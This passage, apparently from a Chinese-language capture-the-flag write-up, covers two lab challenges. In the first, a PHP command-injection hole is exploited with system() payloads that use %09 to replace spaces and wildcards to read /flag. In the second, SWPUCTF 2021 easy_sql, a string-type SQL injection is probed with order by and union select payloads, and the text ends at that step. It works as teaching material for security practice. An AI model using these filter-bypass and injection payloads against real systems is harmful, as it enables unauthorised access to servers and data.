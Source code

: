发现存在命令执行漏洞 但是要绕过过滤和限制

利用%09绕过空格

```php
?get=system('ls%09/');
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736492897467-d94eb5cc-5147-44b4-ae7f-17de69841d09.png)

发现更目录下面有flag

```php
?get=system('cat%09/flag');
```

由于有长度限制 所以使用通配符缩短payload

```php
?get=system('tac%09/f*');
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736493174819-4b590f30-5b2b-475b-91d7-35b290879bc7.png)

# 进阶
## [SWPUCTF 2021 新生赛]easy_sql
根据题目提示是一道sql注入题目 点进去之后没有明显的注入点 打开页面源代码发现参数是wllm 并且是get方式传参

```python
?wllm=1   //正常回显
?wllm=1'  //报错
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736517995054-ebbb05e9-8aea-4010-8fc9-ba09f1910818.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736517978467-479f102b-f69b-4596-8558-feacddc53824.png)

所以判断为字符型注入 于是查看字列段数

```sql
?wllm=-1' order by 1--+
?wllm=-1' order by 2--+
?wllm=-1' order by 3--+
?wllm=-1' order by 4--+
```

发现到4时显示显示错误 所以子列段数围为3 接着使用联合查询寻找回显位置

```sql
?wllm=-1' union select 1,2,3--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736518387179-7448fe05-8aae-4ffb-9a3e-d22019e5d1b0.png)
